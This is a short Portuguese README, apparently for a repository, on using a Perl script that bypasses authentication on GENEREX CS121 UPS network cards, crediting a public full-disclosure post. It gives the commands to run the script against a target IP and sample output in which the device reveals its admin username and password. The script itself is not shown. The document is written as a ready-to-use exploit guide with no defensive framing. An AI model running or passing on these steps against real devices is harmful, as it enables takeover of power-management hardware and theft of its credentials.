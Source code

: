# Autenticação Bypass do CS121 da GENEREX
 - Este procedimento foi feito com base do CL121BL,B e F da CM comandos na versão HynetOS 5.XX:  
 -  Os créditos são totalmente do JKMAC da seclists.org:  
 -  
 https://seclists.org/fulldisclosure/2014/May/75  


 ## UTILIZAÇÃO
 - Dê permissão de executavel no arquivo sockets121.pl:  
 
 ```bash

 chmod +X sockets121.pl
```

 - A sintaxe do script é ./sockets121.pl (IP), ex: ./sockets121.pl 192.168.10.10  
  O processo leva cerca de 10 minutos,caso não apresente o login e senha execute novamente que aparecerá as informações:

 ```bash

./sockets121.pl  192.168.10.10

UPS: <VERSION> CS124-16M32M, ROM-Version: 2.5.X(pduc) - Aug 27, 2010 

Target system parameters (current):
Default Protocol : TCP/IP
Default Driver   : Ethernet
Mac address      : 00-03-05-00-00-00
IP address       : 192.168.10.10
Net Mask         : 255.255.255.0
Default Gateway  : XX.XX.XX.XX
DHCP             : 0.0.0.0
DNS              : 0.0.0.0
Port for tools   : 4000


Procurando login ... 
USER: admin, PASS: hg478wegzsu, ACCOUNT: none

```
